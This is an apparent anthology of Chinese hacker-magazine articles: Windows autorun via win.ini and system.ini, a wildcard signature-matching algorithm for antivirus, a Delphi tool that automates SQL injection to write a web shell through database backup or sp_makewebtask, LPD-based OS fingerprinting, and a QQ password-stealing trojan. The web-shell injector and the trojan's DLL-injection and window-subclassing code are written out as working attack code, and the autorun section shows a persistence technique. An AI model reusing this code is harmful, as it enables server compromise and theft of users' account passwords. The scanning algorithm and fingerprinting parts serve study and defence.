- （2）`WritePrivateProfileString()` 与上一个函数的不同点在于其将键和值分开了，原型如下：

```c
BOOL WritePrivateProfileString(
    LPCTSTR lpAppName,   // 指向指定字段的字符串
    LPCTSTR lpKeyName,   // 指向指定键的字符串
    LPCTSTR lpString,    // 指向指定值的字符串
    LPCTSTR lpFileName   // 指向文件名字符串
);
```

用法示例：

```c
WritePrivateProfileString(_T("windows"), _T("load"), _T("c:\\winnt\\notepad.exe"), _T("c:\\winnt\\win.ini"));
```

- （3）`WritePrivateProfileStruct()` 与前面两个的不同在于文件尾有校验和，原型如下：

```c
BOOL WritePrivateProfileStruct(
    LPCTSTR lpszSection,
    LPCTSTR lpszKey,
    LPVOID  lpStruct,
    UINT    uSizeStruct,
    LPCTSTR szFile
);
```

用法示例：

```c
WritePrivateProfileStruct(_T("windows"), _T("load"), pBuffer, sizeof(pBuffer), _T("c:\\winnt\\win.ini"));
```

- （4）还有两个函数，是专门用来向 `win.ini` 文件写入的，函数原型如下：

```c
BOOL WriteProfileSection(
    LPCTSTR lpAppName,
    LPCTSTR lpString
);

BOOL WriteProfileString(
    LPCTSTR lpAppName,
    LPCTSTR lpKeyName,
    LPCTSTR lpString
);
```

下面来看几个对应的从 ini 文件获取信息的 API 函数，上面已经说得很详细了，这里只说其中两个：

```c
DWORD GetPrivateProfileString(
    LPCTSTR lpAppName,
    LPCTSTR lpKeyName,
    LPCTSTR lpDefault,
    LPTSTR  lpReturnedString,
    DWORD   nSize,
    LPCTSTR lpFileName
);

UINT GetPrivateProfileInt(
    LPCTSTR lpAppName,
    LPCTSTR lpKeyName,
    INT     nDefault,
    LPCTSTR lpFileName
);
```

程序示例1：我们在这里建立了一个应用程序“App Name”，并且使用了一个 INI 文件 `appname.ini`，在此 INI 文件中，我们写入如下内容：

```ini
[Section1]
FirstKey=It all worked out okay
SecondKey=By golly, it works
ThirdKey=Another test
```

代码分析如下：详细代码请查看光盘“源代码”栏目，按照文章名查找即可。

程序示例2：通过修改 `win.ini` 中字段 `[windows]` 中的键 `load` 或 `run`，或者为 `system.ini` 中字段 `[boot]` 中的键 `shell` 增加值，可以达到设置程序自动运行的目的。

```ini
win.ini
[windows]
load=c:\winnt\notepad.exe
run=c:\winnt\notepad.exe

system.ini
[boot]
shell=c:\winnt\explorer.exe c:\winnt\notepad.exe
```

> 注意：`system.ini` 文件的修改要特别注意。如果仅改成 `shell=c:\winnt\notepad.exe`，可能无法正常进入桌面与任务栏。恢复为 `shell=c:\winnt\explorer.exe` 可修复。

下面这个程序详细代码请查看光盘“源代码”栏目：按照文章名查找即可，使用 VC++6.0 写成，核心程序源代码如下：

```cpp
void CAutoRunDlg::OnBrowse()
{
    // 只选 exe 文件
    CFileDialog fileDlg(TRUE, _T("EXE"), _T("*.exe"), OFN_HIDEREADONLY|OFN_OVERWRITEPROMPT,
        _T("Executable Files (*.exe)|*.exe||"));

    // 当操作者选择 OK 时，程序取得选择文件的全路径名
    if (fileDlg.DoModal() == IDOK)
    {
        m_strFileName = fileDlg.GetPathName();
        UpdateData(FALSE);
    }
}

void CAutoRunDlg::OnApply()
{
    // 更新数据
    UpdateData(TRUE);
    // 写入 ini 文件
    LPCTSTR filename;
    filename = m_strFileName;
    WritePrivateProfileString(_T("windows"), _T("load"), filename, _T("c:\\winnt\\win.ini"));
}
```

您如果要更改 `system.ini`，可以将  
`WritePrivateProfileString(_T("windows"),_T("load"),filename,_T("c:\\winnt\\win.ini"));`  
改为  
`WritePrivateProfileString(_T("boot"),_T("shell"),filename,_T("c:\\winnt\\system.ini"));`，  
并且在输入文件名时输入 `c:\winnt\explorer.exe  c:\winnt\notepad.exe`。写到这里，本文的意图基本达到，如果您可以把某些代码亲自实现，相信会有比较大的收获。

> 后记：本文尽量从平凡之中解决自启动的问题……如果您对其他一些自动加载技术感兴趣，可以查看一些相关资料。

socket，特征码扫描是非常古老但又一直沿用至今的技术了。无论是在各杀毒软件，还是在含木马查杀软件中，特征码扫描都占有非常重要的位置。本文着重介绍了基于快速模式匹配的特征码扫描技术……本文并不适合新手看，在看本文之前，需要事先掌握数据结构和扫描算法方面的相关知识。

## 杀毒软件编程精华
### ——特征码扫描技术

文／单长虹

特征码扫描技术是反病毒技术中的常规武器……改进的基于特征码扫描技术的广谱特征串过滤技术却有着无比的优越性和广阔的应用前景。笔者在做防治木马技术研究中，对常规模式匹配算法进行了改进，写出了如下的快速查找算法，暂且命名为“半回溯的模式匹配算法”。

这里，我之所以称之为“半回溯”，就是因为在对通配符进行匹配时要进行适当的回溯，以减少因采用通配符所带来的过长推进。虽然这是一种带有回溯的算法，但是实际上它的效率并不比“无回溯的模式匹配算法”低多少。下面，我们一起来看一下带通配符的半回溯匹配算法（用 `%` 号匹配一个字符，用 `*` 匹配 32 个字符）：

```
1. 初始化
i=1; j=1;
counter1=0; counter2=0;

2. 利用 next[i] 反复进行比较，直到 i<=m+1
循环：当 i<=m 且 j<=n 时，反复执行：
若 (p[i]!='*' 且 p[i]==q[j])
则 i=i+1, j=j+1;
否则若 p[i]=='%'
则 i=i+1; j=j+1; counter1=counter1+1;
否则若 p[i]=='*'
则 i=i+1; j=j+32; counter2=counter2+1;
否则若 next[i]>0
则 i=next[i]; j=j-(counter1+counter2*32); counter1=0; counter2=0;
否则
则 i=1; j=j-(counter1+counter2*32); j++; counter1=0; counter2=0;
```

```c
// 子串
char* p="shanchang%*zhong";
// next 数组中元素的个数等于子串的长度
int next[16];
int i,j;

// initialize variable
i=0; j=1; next[0]=0;
```

其中，counter1 是用来统计 `%` 的个数，而 counter2 用来统计 `*` 的个数，其中 m 是子串的长度，n 是被搜索串的长度。每次碰到子串中有 `%` 的时候就自动将 counter1 加一；若是碰到 `*` 就自动将 counter2 加一。i 用来指明子串当前比较的位置，而 j 用来指明被搜索串当前比较的位置。如果一旦子串与被搜索串不能满足搜索条件，就要将被搜索串的比较位置进行回溯，以回到被通配符漏过的字符个数位置，以便重新匹配。

这里，涉及到了与“无回溯的模式匹配算法”中相同的 Next 数组，其中 Next 数组的计算方法如下。接下来，对上面的算法进行翻译，得到如下代码：

```c
/* 1 初始化值 */
i=0; j=1;
next[1]=0;

/* 2 反复比较并求 next[i+1]
循环：当 i<m-1 时，反复执行
(1) 找出 p[1..j-2] 中最大的相同前缀和后缀，并将其长度送 j
循环：当 j>0 且 p[j-1]!=p[i] 且 p[j-1]!='%' 且 p[j-1]!='*' 时，反复执行 j=next[j]-1;
(2) 计数器加1
i=i+1; j=j+1;
(3) 计算 next[i]
若 p[i]==p[j] 或 p[i]=='%' 或 p[j]=='%'
则 next[i]=next[j]
否则 next[i]=j;
*/
```

```c
// 计算 next 数组的循环
while(i<16)
{
    while(j>0 && p[i-1]!=p[j-1] && p[i-1]!='%' && p[j-1]!='%')
        j=next[j]-1;
    i++;
    j++;
    if(p[i-1]==p[j-1] || p[i-1]=='%' || p[j-1]=='%')
        next[i-1]=next[j-1];
    else
        next[i-1]=j;
}
```

Next 数组的计算方法与“无回溯匹配算法”稍有不同，因为 `%` 用来匹配一个字符，所以对于 `%` 的处理，可以看作比较字符相等；而对 `*` 的比较，无论如何一个字符都不可能与一个 32 字符的字符串相等，所以对于 `*` 始终认为不相等。

这个算法的描述，无论我作何解释，读者总会感觉有一些抽象，而难于真正理解。下面，笔者写了一个简单的程序，来对这个算法进行测试，希望对您会有所帮助。这个程序是在 VC6.0 的控制台下运行的，非常简单，基本上就是将以上算法翻译成了 C++ 语言。源程序可以在附书光盘中找到，名称为“带通配符的无回溯模式匹配算法源程序”。

在这个程序中，首先就是要建立一个子串和被搜索串，并确定算法中提到的 m 和 n 的值，如下所示：

```c
// 被搜索的串
char* t="nihaoqxishanchangshanchangaoyejie!he*%dfsd%shanchashanchanghongioejw";
```

有了至关重要的 next 数组之后，就要使用改进了的模式匹配算法，从被搜索串中搜索出子串，代码如下：

```c
// 模式匹配的循环
i=1;
j=1;
int counter1=0, counter2=0;
while(i<=16 && j<=69)
{
    if(p[i-1]!='*' && p[i-1]==t[j-1])
    {
        i++; j++;
    }
    else if(p[i-1]=='%')
    {
        i++;
        j++;
        counter1++;
    }
    else if(p[i-1]=='*')
    {
        i++;
        j+=32;
        counter2++;
    }
    else if(next[i-1]>0)
    {
        i=next[i-1];
        j-=(counter1+counter2*32);
        counter1=0;
        counter2=0;
    }
    else
    {
        i=1;
        j-=(counter1+counter2*32);
    }

    // 如果 i 等于 17，说明对于串的搜索已经找到尽头，
    // 并搜索到了子串，就出循环
    if(i==17) break;
}


```

如果需要使用这个算法进行特征码的查找，可以直接将其中计算 next 数组和模式匹配的部分进行移植。到这里，基本上将要说的都说完了，可能大家对这个算法还是有一些迷惑；如果对其正确性有疑问的话，可以使用上面的程序，对不同的子串和被搜索串进行操作。另外，如果对 next 数组不太了解，还是建议大家找出教材来好好看一下。本算法的效率是比较高的，至于它的计算复杂度，我想在这里就不能做过多说明了。有兴趣的读者，或者从事反病毒研究的读者，希望能对你们有一定帮助。同时，如果有不对的地方，可以在黑防论坛上提一下，以期获得改进。

### 后记

对于一个真正的程序员来说，其任务决不应该仅仅只是机械地拖拖控件、动动鼠标。更重要的应该是编程开始前的软件整体安排和设计，而相关算法设计也应该是非常重要的一部分。对于一个搞软件的人来说，其算法的设计也应是其精华所在。本文专门对算法进行相关分析，希望能够对大家有所启发。

socket：SQL 注入攻击是很热门的技术了，网上玩得火热。早期我们都采用手工注入技术来进行，但是可能是注入难度加大的原因，手工可能远远不及程序来得快。这篇文章不是要给大家指出如何去攻击别人，意在告诉大家：展开你的想像力，做编程未尝不需要技术本身。

难度等级：高级。  
前置知识：Delphi 编程技巧，SQL 注入攻击技术。

## 得到 Web Shell 就这么简单！

文／图 史要饭的！

相信大家对 SQL Injection 注入漏洞都非常了解吧。那我就不用多说了。今天要为大家介绍的是 N.E.V.E.R 和 CZY 的手工注入得到 WebShell 的原理。然后我们利用它们的手工注入原理来写成程序得到 WebShell，手工注入速度当然比程序自动注入慢得多。希望本文可以抛砖引玉，吸引更多朋友加入到程序注入的行列中来。

再来看看 CZY 的方法吧。

CZY 的方法前面和 N.E.V.E.R 的方法基本上差不多，只是后面用到了扩展存储过程——`sp_makewebtask`。这个扩展存储过程的作用是：可以把 MSSQL 数据库中某个表中的记录导出来，以文件的方法保存起来。这种方法就不会出现什么问题，原因在于我们只去读表中某个字段中的值，把字段信息导出来生成文件，这个字段中的值都是我们刚加上的，自己在加入数据的时候先调试一下，没有问题再加入进去，导出来当然没有问题。

以上两位的方法，我都手工测试过。利用 SQL 注入漏洞、建表，向表中加数据，然后再导出数据、删除表，都是利用 SQL 语句。这里我就不多说了。

> 小提示：本书后面有 N.E.V.E.R 的这篇文章，相信此文给广大的脚本爱好者开辟了一个新天地！

### 通过 SQL 注入得到 Web Shell 的原理

N.E.V.E.R 的方法：利用数据库备份得到 WebShell。创建一个表，在表中建一个字段用来保存木马数据，然后利用 MSSQL 导出库文件的办法把整个数据导出来，最后再删除新建的表。

分析 N.E.V.E.R 利用了 MSSQL 的备份数据库功能，把数据导出来。设想数据库中有 `<%%>` 之类的 ASP 标识符，导出文件，文件名以 `.ASP` 的形式保存，然后文件又保存在 Web 路径下。那么，这个导出的 ASP 文件是不是要去解释 `<%%>` 之内的语句呢？如果数据库中有的表中有 `<%%>` 标识符，并且这之中有错误，那么我们导出来生成的 ASP 文件也会有误。不过，这……

### 利用 Delphi 实现功能的前言

原理都分析过了，我们怎么利用 Delphi 来实现它们的手工操作呢？其实方法非常简单。Delphi 提供了一个 NMHTTP 控件，我们利用这个控件就可以向某个特定的 URL 提交参数，然后实现自动注入功能。我写的这个程序有一个特点，也可以说是一个缺陷：程序不去自动猜解 Web 的绝对路径，不去判断当前连接 SQL 数据库账号的权限。我为什么要这样做……怎么做？因为这两者用 SQL 注入是非常难得到的。所以，我们程序发送命令就不会考虑太多，成不成功你执行完自己去看看生成没有就 OK 了。

> （读者来信/提示框内容）
>
> “照着这么好的思路怎么能说它逃脱……利用终极后门来权限控制这受脚本系而异常快的思路，完全将脚本的理念发挥了出来。”

### 如何利用 Delphi 得到 Web Shell

程序中用到的值，我们这里来看看有哪些。URL 路径，远程 Web 绝对路径（通过其他方法得到，你一定有办法的），采用什么方法去得到 Web Shell（也就是两位的方法，你选哪一种）。我们同时要求点击一个按钮开始执行命令，和点击一个按钮来终止命令。最后就是新建的表的名称，以及表的字段名称，再次就是字段的类型。前面的我们在程序中放上输入、选择之类的控件就行了。后面的我们设一个选项按钮弹出相应设置，再把这些相应的设置用一个 RECORD 来保存。

首先，我们在主表单中放 3 个 EDIT 控件，名称分别是 UrlET（URL 路径的输入框）、ShellPathET（远程木马的位置）和 CustomBdoorET（自定义木马的位置）；再放两个 RadioButton 用来选择采用什么方式获取 Web Shell，CAPTION 分别取名为 BackUP DataBase 和 Web 作业；然后再放 3 个 SpeedButton 按钮，名称分别是 设置、开始、停止；最后再放一个 MEMO 控件，来显示当前添加的信息。至此，界面上的工作就做完了，如图 1 所示。
图 1

现在我们来写程序。首先定义一个 RECORD，如下所示：

```pascal
Type
  SetOption = Record
    TableName: String; // 用来保存要创建的表名
    FieldName: String; // 用来保存要创建的字段名
    FieldType: String; // 用来保存创建的字段类型
  End;
```

再定义一个全局变量：

```pascal
Var
  IsStop: Boolean; // 用来判断用户是否按下了终止按钮
```

在表单创建的过程中，我们对 RECORD 记录输入默认值，代码如下：

```pascal
procedure TMainForm.FormCreate(Sender: TObject);
begin
  sOption.TableName := 'cyfd';
  sOption.FieldName := 'gmemo';
  sOption.FieldType := 'text';
end;
```

现在我们添加开始执行命令的代码。先定义 BDoorList 为 TStringList，主要目的就是把木马的内容加进来。创建两个变量来保存 UrlET 和 ShellPathET 的值，方便程序简化调用。在程序开始执行前，我们得先检查一下用户的输入。定义一个 CheckInput 函数，代码如下：

```pascal
Function CheckInput: Boolean;
Begin
  Result := False;
  if Trim(UrlET.Text) = '' then
  Begin
    Application.MessageBox('请输入URL地址!!','提示',mb_ok+mb_iconinformation);
    Exit;
  End;
  if Trim(ShellPathET.Text) = '' then
  Begin
    Application.MessageBox('请输入文件保存地址!!','提示',mb_ok+mb_iconinformation);
    Exit;
  End;
  if DefBDoor.Checked then
  Begin
    If Not FileExists(ExtractFilePath(Application.ExeName)+'默认木马.txt') then
    Begin
      Application.MessageBox('没有找到[默认木马.txt]文件!','提示',mb_ok+mb_iconinformation);
      Exit;
    End;
  End
  Else
    if Not FileExists(CustomBDoorET.Text) then
    Begin
      Application.MessageBox('没有找到所选的木马文件!!','提示',mb_ok+mb_iconinformation);
      Exit;
    End;
  Result := True;
End;
```

在最开始处加入：

```pascal
if not CheckInput then Exit; // 如果输入不合法就退出过程。
```

好了，如果用户输入没什么错，我们就继续下面的工作。首先我们把 `IsStop` 设为假，创建 `BDoorList`，再把木马内容加到 `BDoorList`：

`BDoorList := TStringList.Create;`  
`BDoorList.LoadFromFile(CustomBDoorET.Text);`

这里要注意用 `NMHTTP` 提交数据时，空格和 `%` 等特殊字符需要转码（如 `%20`、`%25`）。

```pascal
BDoorList.Text := StringReplace(BDoorList.Text,'%','%25',[rfReplaceAll]);
BDoorList.Text := StringReplace(BDoorList.Text,' ','%20',[rfReplaceAll]);
```

接下来，我们就是做建表的功能了。

```pascal
Memo.Lines.Add('建表...');
Memo.Lines.Add('');
NMHttp.Get(Url+'CREATE%20TABLE%20[dbo].['+sOption.TableName+']%20('+sOption.FieldName+' '+sOption.FieldType+')');
```

这样我们就创建了一个表，然后向表中添加记录，代码如下：

```pascal
Memo.Lines.Add('加数据...');
Memo.Lines.Add('');
For i:=0 to BDoorList.Count-1 do
begin
  if IsStop then
  begin
    BDoorList.Free;
    Exit;
  end;
  NMHttp.Get(Url+'insert%20into%20'+sOption.TableName+'%20('+sOption.FieldName+')%20values%20('''+BDoorList.Strings[i]+''')');
end;

Memo.Lines.Add('导出数据...');
Memo.Lines.Add('');
if BKData.Checked then
  NMHttp.Get(Url+';declare%20@a%20sysname;select%20@a=db_name();backup%20database%20@a%20to%20disk='''+ShellPath+'''')
else
  NMHttp.Get(Url+';EXECUTE%20sp_makewebtask%20@outputfile='''+ShellPath+''',@query='''+sOption.FieldName+'''');

NMHttp.Get(Url+';drop%20TABLE%20[dbo].['+sOption.TableName+']');
BDoorList.Free;


```

再向停止按钮中添加点击事件，一行代码就行了：`IsStop := True;`

到这里主表单的内容基本完成了。现在来看设置表单中怎么设置。先引用主表单，然后在界面中添加两个 `EDIT` 控件：

- `TableNameET`：保存用户输入的临时表名
- `FieldNameET`：保存用户输入的字段名

再添加一个 `ComboBox` 用于字段类型，名称 `FieldTypeCombox`。
代码如下：定义一个过程，主表单好调用这个设置。

```pascal
Procedure ShowSet;
Begin
  Application.CreateForm(TSetForm,SetForm);
  With SetForm do
  Begin
    TableNameET.Text := sOption.TableName;
    FieldNameET.Text := sOption.FieldName;
    FieldTypeCombox.ItemIndex := FieldTypeCombox.Items.IndexOf(sOption.FieldType);
  End;
  SetForm.ShowModal;
  SetForm.Free;
End;
```

在主表单中设置的点击事件中添加 `ShowSet` 过程就行了。下面就是点击确定的代码了。

```pascal
If CheckInput then
Begin
  sOption.TableName := Trim(TableNameET.Text);
  sOption.FieldName := Trim(FieldNameET.Text);
  sOption.FieldType := FieldTypeCombox.Text;
  Close;
End;
```

这里又有一个 CheckInput，主要就是检查用户输入的值是不是合法。代码如下：

```pascal
Function CheckInput(): Boolean;
Begin
  Result := False;
  If Trim(TableNameET.Text) = '' then
  Begin
    Application.MessageBox('请输入临时表名!','提示',mb_ok+mb_iconinformation);
    Exit;
  End;
  If Trim(FieldNameET.Text) = '' then
  Begin
    Application.MessageBox('请输入字段名!','提示',mb_ok+mb_iconinformation);
    Exit;
  End;
  Result := True;
End;


```

到这里程序就完了。

### 后记

程序是非常简单的，也没用到什么技术，用于新手练练手吧。写这个程序，我用了不到 1 个小时就完工了，程序也经测试，都成功了，这是我第一次写这种类型的文章，有不足之处请大家原谅。

> ### 编后语
> 文章作者身经百战，相信读过我们《黑客防线》杂志的人都知道哦。文章没有阐明什么高深的技术，旨在说明编程其实也是黑客的一种境界。你是否具有这种基本技巧呢？我们预言，程序代替手工注入将是以后脚本攻击的新趋势。

socket：现在已经有许多方法可以用来探查（“猜测”）远端主机的操作系统，其中一些方法是基于数据包的，其他的一些则是基于某些特定的守护进程在一定的错误（“非标准”）情况下的固定行为。下文就描述了一种以行式打印机守护进程（line printer daemon, lpd）来作为知识库，并将它用于探测远端主机的方法，具有一定的代表性。

## 利用 LPD 守护进程远程探测操作系统

在本文正式开始之前，我们先解释几个名词，有助于大家更好地理解下面的内容。

探查（Determine），“猜测”（Guessing），尽可能准确地猜测远端主机所用操作系统。

错误（Erroneous），“不正确的”（Incorrect），指发送至远端主机行式打印机守护进程的请求状态。我们称之为“错误”，因为它并未使用由 RFC 定义的正确请求格式。

有效的（Valid）；正确的（Correct），指发送至远端主机的请求的语法，正确的语法应当遵循 RFC 定义的规则。

所有这些工具（“程序”）与行式打印机守护进程（LPD）交互，为控制打印工作。各种假脱机打印工具发送合乎 LPD 协议的合法请求至行式打印机守护进程，请求的样子和格式会在下文中加以讨论。我们只要知道确实存在这样的“请求格式”可以成功地发送指令到 LPD 就可以了。

### LPD 协议规范

### 基于守护进程的指纹识别

本文的内容基于 RFC 1179（行式打印机守护进程协议，L. J. McLaughlin III）给出的规范。UNIX 系统用各种工具结合起来完成行式打印机的假脱机打印。

| 命令 | 作用 |
|---|---|
| lpr | 作业提交至队列 |
| lpq | 显示队列 |
| lprm | 从队列中删除 |
| lpc | 控制队列 |

=> LPD（行式打印机守护进程）

基于守护进程的指纹识别在很大程度上依赖于特定系统平台上的守护进程的确定性。重要的是要认识到，我们对守护进程的指纹识别是在应用层上进行的。反之，对 TCP/IP 堆栈的指纹识别则是发生在核心层（缺省窗口大小、TTL 等）上。所以用于进行指纹识别的应用程序（在此处是守护进程）必须是在系统中缺省安装的那一个，这样才能有助于探查远端主机上运行的操作系统。随着守护进程的版本和其他特性的不同，它会给出完全不同的操作系统指纹。

下面的例子中，使用 identd 演示了操作系统中守护进程的确定性对我们指纹识别一台主机具有的重要影响。
```text
ident Red Hat 6.2 的指纹：pidentd 3.0.10 2.2.5-22smp ...
ident Red Hat 7.0 的指纹：pidentd 3.0.10 for Linux 2.2.5-22smp ...
```

上面是 Red Hat 6.2 和 7.0 分别给出的缺省 identd 指纹。说明应用层指纹识别可能与真实操作系统版本不一致，这是进行识别时需要注意的漏洞点。

### 理论分析

“行式打印机守护进程指纹识别”的理论背景不超出 RFC 1179 的描述范围。发送到 LPD 的请求格式有层级结构，正确的信息格式如下所列。

> 【RFC 1179 3.1 小节 信息格式】  
> 所有指令以单字节代码开始，后接 ASCII 表示的队列名，以 ASCII 换行结束。

> 【RFC 1179 第 7 节 控制文件行】  
> 控制文件每行包含一个可打印 ASCII 指令字符及其对象，区分大小写；必须包含 `H`（责任主机）和 `P`（责任用户），并至少包含一个小写指令产生输出。

文中指出在理论分析中并不发送真正有效的打印请求，而是通过构造控制文件探查远端主机可能的操作系统差异。

下面是符合 RFC 1179 定义语法的示例。

```text
H 10.0.0.2 LF（命令码 H，来源主机）
P 502 LF（命令码 P，用户 ID）
f file.txt LF（命令码 f，待打印文件名）
```

来源主机和用户 ID 验证后，文件会被打印。由于是远程指纹识别，通常难以满足合法来源主机和用户条件，因此不能完成一次有效打印请求。

因此不是发送“正确”的请求，而是故意发送语法异常请求，观察远端 LPD 的应答形式，并替换某些指令避免得到自相矛盾结果。

```text
【下面我们完全不理会 RFC 1179 的规定】
M user LF（命令码 M）
```

发送畸形请求后等待应答。应答格式和内容会揭示错误通知信息的形式，这类信息在很多情况下随操作系统而异，可用于建立 LPD 应答数据库进行比对。

### 实际操作分析

为了说明不同操作系统上的 LPD 差异，文中给出小程序并发送畸形请求以展示不同 LPD 指纹间的异同。

```text
M root LF
```

下面是发送上述畸形请求后得到的信息。

```text
(ninja)-(f0bic-[])$ ./lprint XXX.XXX.41:30
Connected to lpd on XXX.XXX.41:30
Reply: invalid protocol request (77): MMr00t
[这是 SunOS/Solaris 5.7 box]

(ninja)-(f0bic-[])$ ./lprint XXX.XXX.59:200
Connected to lpd on XXX.XXX.59:200
Reply Invalid protocol request (77): MMr00t
[这是 SunOS/Solaris 5.6 box]
```

发现相同点了吗？现在试一下另外的系统：

```text
[ninja]~/[0bic]=[1]$ ./lpprint XXX.XXX.153.2
Connected to lpd on XXX.XXX.153.2
Reply: 0781-201 ill-formed FROM address.
[这是 AIX 4.3 box]

[ninja]~/[0bic]=[1]$ ./lpprint XXX.XXX.14.203
Connected to lpd on XXX.XXX.14.203
Reply: 0781-201 ill-formed FROM address.
[这是 an AIX 4.3 box]


```

我们从不同的操作系统中得到了不同的回应，而相同的操作系统返回相似的信息。

> soket：有一些操作系统（Compaq Tru64、UNIX、HP-UX 及其类似的系统）会返回类似的回应，这使得我们很难将其分辨开来；但是大多数操作系统会返回或相似（相同的操作系统）或相异（不同的操作系统）的信息。

### 编后语

上面作者提供了利用打印机返回信息识别操作系统的方法，具有一定的实用性。为了提高效率，作者还编写了一个概念验证工具，其中包含这个 LPD 返回信息及与之相应的操作系统的数据库，方便大家研究使用。该工具可以从 http://www.low-level.net/ 得到，工具名称是 lpdp，下载地址为 http://www.low-level.net/f0bic/releases/lpdp.tar.gz。该工具请查看源码，按照文章名称查找即可。

soket：网上有不少关于写盗取密码程序的编程思路，相信各位编程爱好者也很熟悉了。但是，不知道你是否能够做到不用任何类库，仅仅用 Windows API 来编程实现呢？这可是高手的一个基本特征啊。好了，废话少说，赶紧直奔主题，让我们看看如何利用子类化技术来编写一个 QQ 木马！

## 利用子类化技术实现 QQ 木马
文 / FEI

近日读了一些虾米的文章，颇觉有所启发。有了点思路，就试着写了一个盗取 QQ 密码的程序。我当然知道这已经是很老套的东西了，但我的方法跟一些工具的实现方法略有不同，非常简单，看了之后或许对大家有所启发。

子类化（SubClass）是编写 Windows 程序时常用的一种方法。可能用惯了 VB、Delphi 等 RAD 工具的朋友没听过这个东西。实际上，如果不用任何类库，仅仅用 Windows API 写一个 Windows 窗口程序的话，子类化是非常有用的一种方法。

我们都知道，在 Windows 中程序与用户交互是通过窗体进行的。窗体是系统的一种对象，有窗体类和窗体属性。窗体的行为都是基于消息的，为了处理消息，在窗体类中定义了窗体函数，由窗体函数根据消息的不同而作出相应的动作。每个应用程序（确切地说应该是线程）都有它自己的消息队列，在主线程的消息循环中，特定的消息被发送到相应的窗体函数。

Windows 里有很多预定义的窗体类，如 Edit、Button 等，也就是所谓的通用控件。你可以用 Button 作为类名来调用 CreateWindow，然后使用 SetParent 将这个 Button 设置成你程序窗体的子窗体，再用 MoveWindow 作相应的调整，就可以把一个按钮加到你的程序界面上来。

说了这么多废话，那么什么是“子类化”呢？其实就是使用 SetWindowLong 为窗体设定一个新的窗体函数，从而按自己的意愿来处理某些特定的消息。

SetWindowLong 的返回值是原窗体函数的地址，对于你不关心的消息，可以通过 CallWindowProc 转给它来处理。比如有一个 Button，想让它在每次按下时都响一下，就可以按照预定义的函数声明写一个这样的函数，在其中进行判断，如果消息是 WM_LBUTTONDOWN（鼠标左键被按下）就用 MessageBeep 响一下，然后再传给原窗体函数，否则就直接传给原窗体函数，把这个函数设成 Button 的窗体函数，以后按钮按下时就会连带地响一声。

不过，恐怕现在已经没有人还会用这种方法来做程序了。在 Delphi 和 VB 中，这些东西早就已经变成了各种事件的处理。实际上，子类化用来做消息拦截更好一些。但我们在这里不想做什么拦截，仅仅是为了在用户输入完密码后得到一个“通知”罢了。

有了上面的概念，下面就来说一下木马的主体设计思路。要获得用户输入的 QQ 号和密码，无非就是用 SendMessage 发送 WM_GETTEXT 消息到相应的 Edit 控件来取得其中的内容；但是这种方法在 Windows 2000/XP 下就要失效。另外，要进行子类化操作，在 Windows 2000/XP 下也仅对同一进程内的窗体才有效，所以要采用 DLL 注入的方式，木马的主体是一个 DLL。对于 DLL 注入的方法，我最后会进行说明。先假设 DLL 已经进入目标进程就行了。当 DLL 被进程加载后，DllMain 就会执行，在 DllMain 中，创建了一个线程，每隔一段时间就对系统中的窗体进行枚举，当发现 QQ 的登录窗口或注册窗口……导窗口后就用 DLL 中带的窗体函数对其进行了子类化，而在窗体函数中，如果发现是用户的登录确认消息，就用 SendMessage 得到 QQ 号和密码，然后进行保存。下面是程序的具体实现。

### DLL 的入口函数 DllMain

```cpp
BOOL APIENTRY DllMain(HANDLE hModule, DWORD fdwReason, LPVOID lpReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        DisableThreadLibraryCalls((HINSTANCE)hModule);
        hspyd = CreateThread(NULL, 0, spyd, 0, 0, NULL);
        break;

    case DLL_PROCESS_DETACH:
        if (hspyd) TerminateThread(hspyd, 0);
        break;
    }
    return TRUE;
}
```

很简单，仅仅是监视线程的建立和终止。DisableThreadLibraryCalls 是告诉系统，对于线程的建立和终止不处理 DllMain。

DllMain 是 DLL 的入口函数，类似于 WinMain。当 DLL 加载、卸载或线程建立或终止时自动被系统调用，其中参数 fdwReason 表明的是被调用的原因。这个机制允许 DLL 进行一些简单的初始化或建立相关的线程数据。

### 监视线程 spyd

```cpp
DWORD WINAPI spyd(LPVOID lpParameter)
{
    getImageName(szbuf);
    if (strcmp(szbuf, "QQ.exe")) return 0;
    else
        qpid = GetCurrentProcessId(); // QQ process id

    while (1)
    {
        EnumWindows(wdwscan, 0);
        Sleep(100);
    }
    return 0;
}

BOOL CALLBACK wdwscan(HWND hwnd, LPARAM lParam)
{
    DWORD cwpid;      // current window's process id
    LONG wndproc;
    HWND hedt;

    GetClassName(hwnd, szbuf, buf);
    if (strcmp(dlgclsname, szbuf)) return TRUE;
    GetWindowThreadProcessId(hwnd, &cwpid);
    if (qpid != cwpid) return TRUE;
}
```

```cpp
hedt = getQQEditH(hwnd, ES_PASSWORD);
if (hedt)
{
    wndproc = GetWindowLong(hedt, GWL_WNDPROC);
    if (wndproc != (long)epassProc)
        pbproc = SetWindowLong(hedt, GWL_WNDPROC, (long)epassProc);
}
return TRUE;
```

线程函数 spyd 首先调用 getImageName 得到进程的映像名（szbuf 是一个全局的 char 型数组），然后判断是不是 QQ 的进程，如果不是就退出；否则取到进程 ID 并保存到全局变量 qpid 中，然后进入死循环，隔一段时间就对系统中的窗体进行枚举。函数 wdwscan 是 EnumWindows 的回调函数，对于枚举到的任何一个窗体，wdwscan 先用 GetClassName 获得窗体类名，然后比较是不是对话框类，dlgclsname 的声明如下：

```cpp
const char * dlgclsname = "#32770";
```

QQ 的登录窗体和注册向导窗体都是这个类，接着获得窗体所属进程的 ID，以判断是不是为本进程（QQ 进程）所有。如果比较失败，函数会返回，否则就进行子类化。

对于子类化就要说明一下了，最开始我是直接对 QQ 的登录窗体和注册向导窗体进行了子类化，拦截 WM_COMMAND 消息以获得“登录”或“下一步”按钮被按下时的“通知”，因为两个按钮的 ID 不一样，所以写了两个窗体函数，要对它们进行区分。我用判断原窗体函数和对话框函数（DWL_DLGPROC，查下 GetWindowLong 的帮助就知道了）的方法，对它们分别用不同的函数进行了子类化。但是写好后却发现 QQ 登录窗体那个函数根本截获不到任何消息（估计应该是腾讯做了手脚，有兴趣的话可以研究一下），用注册向导的可以抓到密码。不得已，我子类化了“登录”按钮，在收到 WM_LBUTTONDOWN 时进行密码记录。

